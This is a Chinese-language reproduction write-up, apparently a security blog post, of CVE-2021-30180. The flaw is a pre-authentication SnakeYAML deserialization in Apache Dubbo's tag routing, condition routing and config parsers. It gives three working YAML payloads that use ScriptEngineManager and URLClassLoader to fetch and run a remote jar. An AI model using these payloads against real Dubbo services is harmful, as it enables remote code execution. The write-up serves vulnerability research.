





# CVE-2021-30180 Apache Dubbo Tag routing Yaml pre-auth 反序列化漏洞 GHSL-2021-040、GHSL-2021-041、GHSL-2021-043

## 概述

### 影响版本

2.6.10、[2.7.0, 2.7.9]

首先看一下 [漏洞披露邮件](https://lists.apache.org/thread/v9s10y8r7obof0yo9vp8c5hsn746zvkh) 是这样描述的，Dubbo 支持配置覆盖，这些配置被加载到配置中心（Zookeeper, Nacos等）。Dubbo 可以配置 [Tag routing](https://dubbo.apache.org/en/docs/v2.7/user/examples/routing-rule/#tag-routing-rules) 规则使得 customer 请求到正确端点，该过程由 yaml 解析，所以存在预授权反序列化。

## 复现分析

### TagRuleParser

通过 `TagRouter` 触发 `org.apache.dubbo.rpc.cluster.router.tag.model.TagRuleParser#parse()`



这个漏洞比较好跟，直接就能定位到 `org.apache.dubbo.rpc.cluster.router.tag.TagRouter#notify()` 然后按照 `ruleRepository.getRule()` 解析的要求去构造就能复现了。



```
---
tags:
- name: pwn
  addresses:
    - !!javax.script.ScriptEngineManager [
        !!java.net.URLClassLoader [[
          !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
        ]]
      ]
```

### ConditionRuleParser

通过 `ListenableRouter` 触发的 `org.apache.dubbo.rpc.cluster.router.condition.config.model.ConditionRuleParser` 也存在问题



限定了 Constructor，所以还得包装一下

```
---
conditions:
 - !!javax.script.ScriptEngineManager [
   !!java.net.URLClassLoader [[
     !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
   ]]
 ]
```



### ConfigParser

`org.apache.dubbo.rpc.cluster.configurator.parser.ConfigParser#parseObject()` 也存在问题



payload

```
---
configs:
 - !!javax.script.ScriptEngineManager [
   !!java.net.URLClassLoader [[
     !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
   ]]
 ]
```

Dubbo 配置相关的漏洞触发起来都不难，在这两个类打断点，基本上就能知道需要什么配置了 `org.apache.dubbo.common.config.configcenter.DynamicConfiguration`、`org.apache.dubbo.common.config.Environment`。
